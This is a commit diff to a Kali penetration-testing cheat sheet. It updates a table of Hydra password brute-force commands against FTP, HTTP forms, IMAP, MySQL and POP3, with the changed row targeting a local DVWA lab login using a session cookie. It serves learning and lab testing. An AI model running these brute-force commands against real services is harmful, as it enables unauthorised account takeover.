

Before and after one commit to rootanvir/cheat-sheet-kali-tools, a Markdown page: tools/hydra.md, the part around the change. GitHub-like rendering.

Commit message:
hydra get req

```diff
--- a/tools/hydra.md
+++ b/tools/hydra.md
@@ -23,7 +23,8 @@
 | FTP       | hydra -l root -P passwords.txt -f ftp://10.0.2.5 -V |
 | HTTP Basic Auth | hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V |
 | HTTP Post | sudo hydra -l admin -P pass.txt 192.168.182.129  http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -V|
-|HTTP get|sudo hydra -l admin -P pass.txt 192.168.182.129 http-get-form "/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -V|
+|HTTP get|hydra -l admin -P pass.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=d4989f615ec17c100c410c986b35de6c;security=low:F=Username and/or password incorrect." -V
+|
 | IMAP      | hydra -l root -P passwords.txt -f imap://10.0.2.5 -V |
 | MySQL     | hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V |
 | POP3      | hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V |
```
Also changed, not shown: README.md (+5 -0 lines), tools/random.md (added, +112 -0 lines).
